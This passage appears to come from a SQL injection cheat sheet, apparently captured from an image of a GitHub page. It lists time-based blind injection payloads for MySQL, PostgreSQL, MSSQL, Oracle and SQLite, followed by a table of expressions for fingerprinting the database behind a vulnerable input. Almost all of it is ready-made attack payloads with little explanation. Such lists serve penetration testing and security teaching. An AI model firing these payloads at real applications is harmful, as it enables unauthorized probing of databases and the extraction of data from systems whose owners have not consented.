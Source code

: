 ```sql
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

## DBMS Identification

The best way to identify the back-end is trying to execute functions of the different back-ends.

```sql
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
